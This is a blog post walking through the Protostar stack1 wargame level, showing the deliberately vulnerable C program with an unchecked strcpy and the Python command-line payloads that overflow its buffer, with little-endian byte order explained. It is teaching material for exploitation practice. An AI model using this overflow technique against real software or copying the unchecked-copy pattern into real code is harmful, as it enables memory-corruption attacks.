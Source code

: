 ```yaml
---
layout: post
title: "More Stack Overflows: protostar stack1"
date: 2018-09-09 12:35:12 -700
categories: jekyll update
---
```

The next stack based overflow challenge on protostar involves setting a variable equal to a specific value.
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
{% endhighlight %}

As we can see, the goal of this level is to set the 'modified' variable equal to the value 0x61626364, and it should output a message that we have completed the challenge. 

Note that the input you supply is actually through the command line. It would be supplied like this, where foobar is whatever your input is.

$./stack1 foobar

Let's solve this.

$./stack1 $(python -c 'print "A"*65')

Try again, you got 0x00000041

$

We know the buffer is size 64, and if we look at the source code, we see that the variable we are attempting to modify is right next to the buffer. It makes perfect sense that putting one character more than the size of the buffer would set the variable equal to 0x41, which is the ascii value of "A".

what does this mean?
It means we need to fill the buffer with 64 characters (I will be using "A", but you could do it with really any) and then we need to set the variable equal to 0x61626364. That should be easy!

For the variable, we could either use python (or another language like perl) to set the variable, or we could use ascii characters, if they are printable. Because this is a rare case of needing to set a variable to a number with corresponding ascii characters in the printable range, let's do this.
We can look up the ascii table and find that 
	0x61 corresponds to "a"
	0x62 corresponds to "b"
	0x63 corresponds to "c"
	0x64 corresponds to "d"

$./stack1 $(python -c 'print "A"*64 + "abcd"')

Try again, you got 0x64636261

$

Our number looks backwards! What is going on here? If you notice, the first character we put into it was "a", which is 0x61. But we see that is at the end of our number, when we need it at the beginning. 

This is because of something called Little Endian byte order, which essentially means that the first byte we put in will be the least significant byte.

This also means, in terms of solving this challenge, we need to put our ascii characters backwards. 

$./stack1 $(python -c 'print "A"*64 + "dcba"')

you have correctly got the variable to the right value

$

Cool, now we know that we can set variables to be equal to specific values!